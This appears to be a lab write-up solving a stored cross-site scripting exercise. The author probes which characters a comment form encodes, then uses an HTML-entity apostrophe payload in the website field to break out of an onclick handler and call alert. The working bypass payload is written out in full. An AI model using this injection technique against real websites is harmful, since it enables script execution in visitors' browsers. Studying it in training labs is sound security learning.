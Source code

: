 # Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

> Lab Objective: submit a comment that calls the alert function when the comment author name is clicked.

- Firstly, Enter simple input like this `test'"><` in input fields in order to post a comment, then search for the input in the Source Code.
  ![1st Screenshot](./Photos/1.png)

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- Code snipped where input is reflected:
  - I've noticed that Comment and Author fields their input has `'"><` html encoded.
  - While Website fields `'` is escaped while `"<>` are html encoded.

```html
<section class="comment">
  <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar" />
    <a
      id="author"
      href="https://test.comtest4\'&quot;&gt;&lt;"
      onclick="var tracker={track(){}};tracker.track('https://test.comtest4\'&quot;&gt;&lt;');"
      >test2&apos;&quot;&gt;&lt;</a
    >
    | 07 May 2025
  </p>
  <p>test1&apos;&quot;&gt;&lt;</p>
  <p></p>
</section>
```

- But when you use this payload in the website field, `alert` function will execute successfully. The Payload: `http://foo?&apos;-alert(1)-&apos;`
  ![2nd Screenshot](./Photos/2.png)

- Therefore, the lab is solved.
  ![3rd Screenshot](./Photos/3.png)

---
